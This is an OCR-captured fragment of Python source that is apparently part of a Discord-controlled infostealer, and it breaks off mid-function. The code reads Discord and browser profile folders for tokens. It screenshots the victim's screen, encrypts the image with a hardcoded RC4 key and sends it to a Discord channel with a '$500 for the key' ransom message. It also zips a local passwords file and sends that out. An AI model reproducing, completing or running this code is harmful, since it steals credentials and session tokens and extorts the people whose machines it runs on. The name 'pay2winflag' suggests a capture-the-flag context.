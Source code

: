 ```
    roaming = os.getenv('APPDATA')
    paths = {
        'Discord': roaming + '\\Discord',
        'Discord Canary': roaming + '\\discordcanary',
        'Discord PTB': roaming + '\\discordptb',
        'Google Chrome': local + '\\Google\\Chrome\\User Data\\Default',
        'Opera': roaming + '\\Opera Software\\Opera Stable',
        'Brave': local + '\\BraveSoftware\\Brave-Browser\\User Data\\Default',
        'Yandex': local + '\\Yandex\\YandexBrowser\\User Data\\Default'
    }

    message = '\n'
    for platform, path in paths.items():
        if not os.path.exists(path):
            continue

        message += '```'
        tokens = sniff(path)

        if len(tokens) > 0:
            for token in tokens:
                message += f'{token}\n'
        else:
            pass
        message += '```'

    try:
        from PIL import ImageGrab
        from Crypto.Cipher import ARC4
        screenshot = ImageGrab.grab()
        screenshot_path = os.getenv('ProgramData') + r'\pay2winflag.jpg'
        screenshot.save(screenshot_path)

        with open(screenshot_path, 'rb') as f:
            image_data = f.read()

        key = b'tralalero_tralala'
        cipher = ARC4.new(key)
        encrypted_data = cipher.encrypt(image_data)

        encrypted_path = screenshot_path + '.enc'
        with open(encrypted_path, 'wb') as f:
            f.write(encrypted_data)

        await channel.send(f"Screenshot from {hostname} (Pay $500 for the key)", file=discord.File(encrypted_path))

    except Exception as e:
        print(f"Error taking screenshot: {e}")

    try:
        zname = r'C:\ProgramData\passwords.zip'
        newzip = zipfile.ZipFile(zname, 'w')
        newzip.write(r'C:\ProgramData\passwords.txt')
        newzip.close()
        
        await channel.send(f"Passwords from {hostname}", file=discord.File(zname))
    except Exception as e:
        print(f"Error with password file: {e}")

    try:
        usr = os.getenv("UserName")
```